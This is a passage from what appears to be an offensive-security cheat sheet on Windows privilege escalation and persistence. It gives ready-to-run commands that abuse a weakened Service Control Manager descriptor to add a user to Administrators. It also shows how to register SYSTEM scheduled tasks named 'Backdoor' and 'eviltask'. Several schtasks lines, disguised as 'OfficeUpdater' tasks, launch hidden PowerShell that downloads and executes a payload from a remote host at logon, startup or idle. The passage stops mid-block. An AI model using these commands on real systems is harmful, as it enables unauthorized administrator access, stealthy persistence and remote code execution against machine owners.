 * `sc.exe`: The Service Control (sc) command is a Windows utility used for managing services.
* `sdset`: This option sets a Security Descriptor (SD) for a service or the Service Control Manager itself. A security descriptor defines permissions and access rights to system resources.
* `scmanager`: This is the target, referring to the Service Control Manager, which manages the services in the system.

The `ServiceSecurityDescriptor` is defined using the Service Descriptor Definition Language (SDDL).

List the permissions for `scmanager`

```ps1
sc.exe sdshow scmanager
```

Alternatively, you can use [zacateras/sddl-parser](https://github.com/zacateras/sddl-parser) to understand the Security Descriptor Definition Language (SDDL), e.g: `./Sddl.Parser.Console.exe "O:BAG:BAD:(A;CI;CCDCRP;;;NS)"`.

Abuse the weaken configuration to create a service that grants administrator privilege to a custom user `user_basic`.

```ps1
sc create LPE displayName= "LPE" binPath= "C:\Windows\System32\net.exe localgroup Administrators user_basic /add" start= auto
```

Then you need to wait for a reboot for the service to automatically start and grant the user with elevated privilege or any persistence mechanism you specified in the `binPath`.

### Scheduled Tasks Elevated

Scheduled Task to run as SYSTEM, everyday at 9am or on a specific day.

> Processes spawned as scheduled tasks have taskeng.exe process as their parent

```powershell
# Powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
$T = New-ScheduledTaskTrigger -Daily -At 9am
# OR
$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$S = New-ScheduledTaskSettingsSet
$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
Register-ScheduledTask "Backdoor" -InputObject $D

# Native schtasks
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
schtasks /Create /RU "NT AUTHORITY\SYSTEM" /tn [TaskName] /tr "regsvr32.exe -s \"C:\Users\*\AppData\Local\Temp\[payload].dll\"" /SC ONCE /Z /ST [Time] /ET [Time]

##(X86) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X86) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X86) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
 
##(X64) - On User Login
```